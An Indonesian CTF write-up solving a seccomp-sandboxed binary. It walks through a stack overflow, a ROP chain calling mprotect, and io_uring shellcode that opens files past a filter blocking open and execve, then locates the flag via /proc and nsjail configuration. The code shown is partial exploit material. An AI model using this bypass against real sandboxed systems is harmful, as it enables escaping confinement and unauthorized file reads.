





<!-- category: Binary Exploitation | points: 789 -->
# Kurungan System

Kategori: Binary Exploitation (Eliminasi). 789 poin waktu saya kerjakan, awalnya 1000.
`nc 168.110.219.59 5025`, binary `kurungan.bin` dari `techtonicexpo.online/tantangan/34`.

Flag:

```
TechtonicExpoCTF{boleh_read_66394FFC}
```



Deskripsi panitia cuma satu kalimat:

> Program membatasi panggilan sistem. Tentukan panggilan yang masih diizinkan untuk membaca bendera.

## Analisis awal

```bash
file kurungan.bin
pwn checksec kurungan.bin
```

```
ELF 64-bit LSB pie executable, x86-64, dynamically linked, stripped

    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
```

NX dan PIE aktif, tapi **tidak ada stack canary**. Kombinasi ini langsung mengarahkan saya ke overflow
plus ROP, asalkan PIE-nya bisa dijatuhkan.

`strings` membocorkan hampir seluruh rencana soal:

```
alamat bss   : %p
alamat main  : %p
masukan isi  :
|       KURUNGAN SYSTEM v3.0            |
|  seccomp aktif: open & execve mati    |
|  jalur keluar  : io_uring saja        |
```

Programnya **membocorkan alamat bss dan main sendiri**, jadi PIE runtuh gratis. Dan bannernya menyebut
jalan keluarnya: io_uring.

Fungsi yang diimpor juga bercerita banyak:

```bash
objdump -R kurungan.bin | grep JUMP_SLOT
```

```
puts  write  printf  read  prctl  setvbuf  mprotect
```

Ada `mprotect`. Artinya saya bisa membuat memori jadi RWX untuk menampung shellcode.

### Membongkar filter seccomp

`prctl` dipanggil dua kali dari fungsi di `0x1199`:

```
11ec: mov $0x26,%edi ; call prctl    -> prctl(PR_SET_NO_NEW_PRIVS=38, 1, 0,0,0)
11b2: mov $0x2b,%ecx ; rep movsq     -> salin 43 x 8 byte filter BPF dari .rodata:0x2020
120a: mov $0x16,%edi ; call prctl    -> prctl(PR_SET_SECCOMP=22, SECCOMP_MODE_FILTER=2, &fprog)
```

`seccomp-tools` tidak ada di mesin saya, jadi saya decode 43 instruksi BPF itu manual dengan
`struct.unpack("<HBBI", ...)` per `sock_filter`. Cuma sekitar 20 baris, ada di [`bpf.py`](bpf.py):

```
SYSCALL DIIZINKAN: read, write, close, mmap, mprotect, munmap, brk, ioctl, exit,
                   prctl, arch_prctl, futex, set_tid_address, exit_group,
                   set_robust_list, rseq,
                   io_uring_setup, io_uring_enter, io_uring_register
default -> RET KILL_THREAD
```

`open`, `openat`, dan `execve` tidak ada. Tapi `io_uring_setup` (425) dan `io_uring_enter` (426) ada.
Ini celahnya: io_uring punya operasi `IORING_OP_OPENAT` sendiri, dan operasi itu dieksekusi worker
kernel, bukan lewat syscall `openat` dari proses saya. Filter seccomp tidak pernah melihatnya.

### Titik masuknya

```
126a <main>:
  126e: sub  $0x40,%rsp
  1272: printf("alamat bss   : %p", 0x4040)      <- bocoran 1
  1290: printf("alamat main  : %p", main)        <- bocoran 2
  12c2: lea  -0x40(%rbp),%rax
  12c6: mov  $0x400,%edx
  12d3: call read@plt                            <- buffer 0x40, baca 0x400
  12d9: leave ; ret
```

Buffer 0x40 byte dibaca 0x400 byte, jadi offset ke return address 0x40 + 8 = **0x48**.

Dan penulis soal meninggalkan gadget siap pakai tepat sebelum main:

```
121c: pop %rdi ; ret
121e: pop %rsi ; ret
1220: pop %rdx ; ret
```



## Prosesnya

**Jatuhkan PIE.** `main` di offset `0x126a`, buffer bss di `0x4040`. Saya cek silang: selisih kedua
bocoran selalu `0x2DD6`, konsisten dengan `0x4040 - 0x126a`.

```python
base = leak_main - 0x126a
assert leak_bss == base + 0x4040
```

**ROP untuk menyiapkan shellcode.** Segmen RW membentang `0x3d88`–`0x5040`, jadi halaman `0x4000`–`0x6000`
aman di-`mprotect`.

```python
rop  = b"A"*0x48 + p64(base+RET)                    # jaga alignment 16 byte
rop += p64(base+POP_RDI) + p64(base+0x4000)         # mprotect(bss_page,
rop += p64(base+POP_RSI) + p64(0x2000)              #          0x2000,
rop += p64(base+POP_RDX) + p64(7)                   #          RWX)
rop += p64(base+PLT_MPROTECT)
rop += p64(base+POP_RDI) + p64(0)                   # read(0,
rop += p64(base+POP_RSI) + p64(base+0x4040)         #      bss,
rop += p64(base+POP_RDX) + p64(0x400)               #      0x400)
rop += p64(base+PLT_READ)
rop += p64(base+0x4040)                             # ret -> shellcode
```

ROP dan shellcode saya kirim **dua tahap dengan jeda**. Kalau dikirim sekaligus, `read` pertama di `main`
yang meminta 0x400 akan menelan dua-duanya.

**Shellcode io_uring.** Alurnya: `io_uring_setup(8, &params)` untuk dapat ring fd, `mmap` ring di offset
`IORING_OFF_SQ_RING` (0) dan SQE di `IORING_OFF_SQES` (0x10000000). Kernel memetakan `SQ_RING` dan
`CQ_RING` ke objek yang sama, jadi satu mmap cukup untuk keduanya.

SQE-nya 64 byte: `opcode=18` (OPENAT), `fd=-100` (AT_FDCWD), `addr=path`, sisanya nol (`open_flags=0`
artinya O_RDONLY). Lalu `sq_array[tail & mask] = 0`, `tail++`, dan
`io_uring_enter(fd, 1, 1, IORING_ENTER_GETEVENTS, 0, 0)`. Hasil openat-nya ada di `cqe.res`.

Setelah fd didapat, sisanya syscall biasa. `read` dan `write` dua-duanya ada di daftar izin:

```asm
mov edi, r12d          /* fd hasil io_uring */
mov rsi, BUF
mov edx, 0x200
xor eax, eax           /* read  */
syscall
mov rdx, rax
mov edi, 1
mov rsi, BUF
mov eax, 1             /* write */
syscall
```

Cara saya memastikan bypass-nya benar-benar jalan: errno asli mulai kembali dari server. Kalau seccomp
memblokir, prosesnya akan dibunuh `KILL_THREAD`, bukan mengembalikan errno.

```bash
python3 solve.py /flag.txt        # file yang tidak ada
python3 solve.py /etc/hostname    # file yang pasti ada
```

```
[4] openat(/flag.txt) -> gagal, errno 2 = ENOENT (tidak ada)
[4] openat(/etc/hostname) -> fd 4, isi = 'c4dabb831acc'
```



**Berburu lokasi flagnya.** Di sini justru bagian yang paling lama. Semua path tebakan biasa kosong.
Karena sekarang saya punya pembacaan file arbitrer, saya pakai `/proc` untuk memetakan lingkungan:

```
/proc/self/cmdline  -> /srv/kurungan.bin
/proc/1/cmdline     -> /bin/sh /start34.sh
/etc/passwd         -> ada user pwn:x:1001:1001::/home/pwn:/bin/sh
/etc/hostname       -> c4dabb831acc
```

`/start34.sh` membuka semuanya:

```sh
#!/bin/sh
socat TCP-LISTEN:${PORT},fork,reuseaddr EXEC:"nsjail --config /nsjail_kurungan.cfg -- /srv/${BINER}",nofork
```

Lalu `/nsjail_kurungan.cfg`:

```
name: "pwn_kurungan"
description: "Sandbox 34 — io_uring butuh worker"
cwd: "/srv"
clone_newuser: true
uidmap { inside_id: "0"  outside_id: "65534"  count: 1 }
gidmap { inside_id: "0"  outside_id: "65534"  count: 1 }
mount { src: "/"  dst: "/"  is_bind: true  rw: false }
```

Dua hal penting di sini. `cwd: "/srv"` menunjuk direktori kerja soal. Dan `uidmap 0 → 65534` menjelaskan
semua `EACCES` yang tadi membingungkan saya: di dalam jail saya uid 0, tapi di luar saya `nobody`. File
milik uid lain tidak bisa dibaca meski saya "root", karena kapabilitas user-namespace hanya berlaku untuk
uid yang dipetakan.



Jadi flagnya pasti file world-readable, dan kemungkinan besar di `/srv`. Sapuan wordlist di sana:

```
[+] /srv/rahasia.txt   fd 4, 11 byte
    boleh_read
```

Nama file dan isinya sama-sama bercanda soal hint yang saya dapat: `rahasia.txt` isinya `boleh_read`.

```bash
python3 solve.py
```

```
[1] bocoran bss  = 0x59169c8c4040
    bocoran main = 0x59169c8c126a
    PIE base     = 0x59169c8c0000
[2] shellcode 381 byte -> 0x59169c8c4040
[3] ROP 200 byte, offset ret = 0x48
[4] openat(/srv/rahasia.txt) -> fd 4, isi = 'boleh_read'

FLAG : TechtonicExpoCTF{boleh_read_66394FFC}
```



## Tools

`file`, `pwn checksec`, `strings`, `objdump -d`/`-R`, `readelf -lW` untuk analisis statis. pwntools untuk
`asm()`, `remote()`, dan packing ROP. Python 3.14 untuk decoder BPF dan exploit.

Dua file: [`bpf.py`](bpf.py) (decoder filter seccomp) dan [`solve.py`](solve.py) (exploit lengkap).

## Yang gagal

Ini soal dengan kegagalan terbanyak buat saya.

**Menebak path flag.** 15 path umum (`/flag`, `/flag.txt`, `/app/flag.txt`, `/home/ctf/flag`, dan
seterusnya), semuanya ENOENT. Bypass sudah jalan, tapi nama filenya salah semua.

**Salah menafsirkan hint.** Hint yang saya dapat berbunyi "hanya baca yang diizinkan". Saya baca harfiah
sebagai "flag sudah terbuka sebagai fd, tinggal `read`". Hipotesis yang wajar dan cepat diuji, tapi salah.
Ternyata itu cuma deskripsi isi file `rahasia.txt`, bukan petunjuk teknik.

**Scan fd pakai `read()` langsung.** Menggantung total, tidak ada output sama sekali, karena `read(3)`
memblokir. Saya ganti `ioctl(FIONREAD)` yang tidak pernah blocking, dan hasilnya cuma fd 0, 1, 2 yang
valid. Tidak ada fd flag.

**`/proc/self/environ` kosong** (nsjail membersihkan environment), dan **`/proc/1/environ` EACCES**
(PID 1 milik root, saya `nobody`).

**`/home/pwn/flag.txt` EACCES.** Sempat saya kira flagnya di sana tapi soalnya rusak. Saya diagnosis
dengan `/home/x` (ENOENT, berarti `/home` bisa ditelusuri) versus `/home/pwn/x` (EACCES), jadi `/home/pwn`
memang ada tapi mode 0700 milik uid 1001.

**Salah baca output sendiri.** Ini yang paling konyol. Saya jalankan probe dengan `| tail -12`, dan `tail`
memotong baris pertama sehingga `/srv/kurungan.bin` terlihat ENOENT. Saya sempat mengira jail punya `/srv`
yang berbeda dari container. Yang membantahnya oracle `ENOTDIR`: `openat("/srv/kurungan.bin/x")` mengembalikan
ENOTDIR, yang membuktikan file itu ada.

Yang akhirnya berhasil: membaca `/proc/1/cmdline` → `/start34.sh` → `/nsjail_kurungan.cfg`, lalu sapuan
wordlist 308 path (14 direktori × 22 nama) yang menemukan `/srv/rahasia.txt`.

Sebagian besar kegagalan itu bisa direproduksi dengan [`gagal.py`](gagal.py), yang memakai
`solve.py` sebagai pembaca file arbitrer. Termasuk oracle `ENOTDIR` yang membantah salah baca saya:

```bash
python3 gagal.py
```

## Yang saya ambil dari soal ini

Intinya satu: **io_uring adalah pintu belakang seccomp**. Seccomp menyaring syscall, sedangkan io_uring
menerima daftar operasi lewat memori bersama dan mengeksekusinya di worker kernel. Jadi `IORING_OP_OPENAT`
membuka file tanpa satu pun `openat` melewati filter. Memblokir `openat` tapi mengizinkan
`io_uring_setup`/`io_uring_enter` sama saja tidak memblokir apa-apa. Filter yang serius harus menolak
seluruh keluarga io_uring.

Yang paling berguna dan bisa saya pakai lagi: **errno sebagai oracle keberadaan file**. Setelah pembacaan
arbitrer didapat, nilai errno membedakan tiga keadaan. ENOENT (2) tidak ada, EACCES (13) ada tapi tertutup,
ENOTDIR (20) ada dan berupa file biasa. Yang terakhir bisa dipaksa dengan menambahkan komponen palsu:
`openat("/srv/kurungan.bin/x")` mengembalikan ENOTDIR yang membuktikan `kurungan.bin` ada, bahkan tanpa
membukanya. Ini pengganti `getdents` yang diblokir.

`/proc` ternyata peta, bukan sekadar kumpulan file. Rantai `/proc/1/cmdline` → skrip start → konfigurasi
nsjail mengubah tebak-tebakan buta jadi pencarian terarah dalam tiga pembacaan. Kalau saya melakukan itu
sejak awal, saya tidak perlu 15 tebakan path yang sia-sia.

Dan membaca konfigurasi sandbox itu penting untuk memahami kegagalan izin. `uidmap { inside 0 → outside
65534 }` menjelaskan sekaligus semua EACCES yang membingungkan. Tanpa membaca config itu, EACCES pada
`/home/pwn` mudah disalahartikan sebagai "flag ada di sini tapi soalnya rusak", dan saya bisa buang waktu
lama di jalur mati.

Terakhir, untuk diri saya sendiri: jangan menyimpulkan dari output yang dipotong. `tail -12` menghapus
baris yang membantah teori yang salah. Saat menyelidiki, cetak penuh dulu, saring belakangan.

<!--
Cek isi minimal panitia:
  1. judul + kategori     -> heading + baris kategori
  2. flag                 -> di atas
  3. analisis awal        -> "Analisis awal" (checksec, strings, decode seccomp, offset)
  4. langkah penyelesaian -> "Prosesnya"
  5. tools / script       -> "Tools" + solve.py + bpf.py
  6. trial-and-error      -> "Yang gagal"
  7. insight / teknik     -> "Yang saya ambil dari soal ini"
-->
